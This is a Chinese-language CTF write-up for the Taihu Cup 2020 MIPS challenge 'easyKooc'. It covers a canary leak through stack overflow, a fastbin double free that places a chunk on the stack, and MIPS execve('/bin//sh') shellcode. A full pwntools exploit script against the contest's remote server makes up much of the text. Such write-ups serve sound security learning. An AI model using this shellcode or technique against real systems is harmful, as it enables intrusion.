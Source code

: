 ```yaml
---
layout:     post
title:      太湖杯2020 easyKooc wp
subtitle:   记太湖杯2020的一道mips题
date:       2020-11-08
author:     X1ng
header-img: 太湖杯2020.jpg
catalog: true
tags:
    - 比赛
    - wp

---
```


看到物联网ctf，还以为会是各种裸机程序、RTOS的题目，，然而pwn好像也都是堆题or2，然而我太菜了只出了一题mips签到

菜鸡落泪

例行检查

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs0r2ec6j313808macq.jpg)

开启了relro和canary保护，mips下不支持NX保护，所以这里的NX开不开都是一样的

用ghidra打开查看反汇编代码

![](https://tva1.sinaimg.cn/large/0081Kckwly1gky9ijt2ryj30u015o7a4.jpg)

一开始会送一个gift，就是栈的地址

可以直接看到第三个分支是向栈上写入一些内容，然后把输入的内容用printf输出一遍，动调发现有栈溢出

add函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs2thtscj30w80oc763.jpg)

只能申请0x38大小的chunk，在分配chunk前并不会清空chunk中的信息，然后会用write函数输出一遍chunk中的内容

delete函数

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhs3011nrj30vo0hc0tm.jpg)

delete存在uaf漏洞

看到这里思路就是通过栈溢出覆盖canary低位的`\x00`来泄露canary，然后在栈上构造`0x00000041`让栈满足fastbin的分配条件，由于栈的地址已经给出，double free将chunk分配到栈上，就可以实现rop

突然发现mips上的rop跟x86下的不太一样，用来找rop的ida脚本装不好，mips指令也没有搞得很明白（菜鸡再次落泪），所以最后还是决定用申请fastbin时候只输入`\n`，利用chunk上残留的fd泄露堆地址，然后把shellcode写在堆地址中，覆盖返回地址为堆地址

但是pwntools里`shellcraft.mips.sh()`生成的shellcode太长，然后面向互联网编写exp，在[ctf-wiki](https://ctf-wiki.github.io/ctf-wiki//pwn/linux/mips/mips_rop-zh/)上找了一段0x30长度的shellcode

```python
shellcode  = b""

shellcode += b"\xff\xff\x06\x28"  # slti $a2, $zero, -1

shellcode += b"\x62\x69\x0f\x3c"  # lui $t7, 0x6962

shellcode += b"\x2f\x2f\xef\x35"  # ori $t7, $t7, 0x2f2f

shellcode += b"\xf4\xff\xaf\xaf"  # sw $t7, -0xc($sp)

shellcode += b"\x73\x68\x0e\x3c"  # lui $t6, 0x6873

shellcode += b"\x6e\x2f\xce\x35"  # ori $t6, $t6, 0x2f6e

shellcode += b"\xf8\xff\xae\xaf"  # sw $t6, -8($sp)

shellcode += b"\xfc\xff\xa0\xaf"  # sw $zero, -4($sp)

shellcode += b"\xf4\xff\xa4\x27"  # addiu $a0, $sp, -0xc

shellcode += b"\xff\xff\x05\x28"  # slti $a1, $zero, -1

shellcode += b"\xab\x0f\x02\x24"  # addiu;$v0, $zero, 0xfab

shellcode += b"\x0c\x01\x01\x01"  # syscall 0x40404
```

后面又发现一些小问题，本地io和远程io又有点不一样导致远程没办法接收堆地址，然后发现每次泄露传回来的地址都一样，也就是说堆地址都是固定的了

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkhsmd535uj30o6086jsx.jpg)

所以直接将shellcode传入第一个chunk，返回地址覆盖成`0x413008`，把canary修复后正常退出即可getshell

exp:

```python
from pwn import*
import sys

context.binary = "easyKooc"
context.arch='mips'
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("121.36.166.138", 8890)# 
elif sys.argv[1] == "l":
    p = process(["qemu-mipsel-static", "-L", "./mipsel-linux-gnu", "./easyKooc"])
else:
    p = process(["qemu-mipsel-static", "-g", "1237", "-L", "./mipsel-linux-gnu", "./easyKooc"])


ru=lambda x:p.recvuntil(x)
rc=lambda x:p.recv(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda : p.interactive()

def add(idx,con):
	ru('your choice')
	sl('1')
	ru('todo id!')
	sl(str(idx))
	ru('content')
	sl(con)

def delete(idx):
	ru('your choice')
	sl('2')
	ru('todo id!')
	sl(str(idx))

def show(idx):
	ru('>>')
	sl('4')
	ru('show:')
	sl(str(idx))

def edit(idx,con):
	ru('your choice')
	sl('3')
	ru('leave?')
	sl(str(idx))
	ru('info:')
	sl(con)

shellcode = "\xff\xff\x06\x28"  # slti $a2, $zero, -1

shellcode += "\x62\x69\x0f\x3c"  # lui $t7, 0x6962

shellcode += "\x2f\x2f\xef\x35"  # ori $t7, $t7, 0x2f2f

shellcode += "\xf4\xff\xaf\xaf"  # sw $t7, -0xc($sp)

shellcode += "\x73\x68\x0e\x3c"  # lui $t6, 0x6873

shellcode += "\x6e\x2f\xce\x35"  # ori $t6, $t6, 0x2f6e

shellcode += "\xf8\xff\xae\xaf"  # sw $t6, -8($sp)

shellcode += "\xfc\xff\xa0\xaf"  # sw $zero, -4($sp)

shellcode += "\xf4\xff\xa4\x27"  # addiu $a0, $sp, -0xc

shellcode += "\xff\xff\x05\x28"  # slti $a1, $zero, -1

shellcode += "\xab\x0f\x02\x24"  # addiu;$v0, $zero, 0xfab

shellcode += "\x0c\x01\x01\x01"	 # syscall 0x40404


ru('motto!')
sl(shellcode)
ru('gift for you: 0x')
stack = int(p.recv(8),16)
print hex(stack)

ru('your choice')
sl('3')
ru('to leave?')
sl('a'*0x20)
ru('The message for you is ')
rc(0x21)
canary = u32(rc(3).rjust(4,'\x00'))
print hex(canary)

add(1,'a')
add(2,'b')
add(3,'c')
#add(4,'d')
delete(1)
delete(2)
delete(1)

ru('your choice')
sl('3')
ru('to leave?')
sd('a'*0x1c+p32(0)+p32(0x41))

add(4,p32(stack+0x24))
add(5,'')
#p.recvline()
#heap = u32(rc(0x3a)[0x12:0x15].rjust(4,'\x08'))
#print hex(heap) #失败的io
add(6,'')

ru('your choice')
sl('1')
ru('todo id!')
sl('7')
ru('content')
#sd('A'*4+'B'*4+'C'*4+'D'*4+'E'*4+'F'*4+'G'*4+'H'*4+'I'*4+'J'*4+'K'*4+'L'*4+'M'*4+'N'*4)
#sd('A'*4+p32(heap)+'C'*4+'D'*4+'E'*4+'F'*4+'G'*4+'H'*4+'I'*4+'J'*4+'K'*4+'L'*4+'M'*4+'N'*4)
sd('A'*4+p32(0x413008)+'C'*4+'D'*4+'E'*4+'F'*4+'G'*4+'H'*4+'I'*4+'J'*4+'K'*4+'L'*4+'M'*4+'N'*4)
ru('your choice')
sl('3')
ru('to leave?')
sd('b'*0x20+p32(canary))


ia()
```

